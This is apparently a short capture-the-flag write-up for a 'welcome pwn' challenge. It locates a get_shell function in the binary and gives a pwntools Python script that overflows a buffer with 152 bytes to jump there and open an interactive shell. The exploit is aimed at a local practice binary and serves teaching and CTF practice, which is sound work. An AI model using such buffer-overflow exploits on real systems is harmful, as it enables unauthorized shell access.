


# welcome pwn

## solution
first let's display every section of the binary



we notice here the string **/bin/sh** at the offset **40200**<br/>
let's check that offset with IDA



Yup we can confirm the this function will exectue a shell for us<br/>
it loads the address of /bin/sh then executes system<br/>
we will write a script that will make us jump to the get_shell function


```python
from pwn import * 

io = process('./welcome')


get_shell = 0x0401187

payload = ""
payload += "A" * 152
payload += p64(get_shell)


io.sendline(payload)
io.interactive()
```
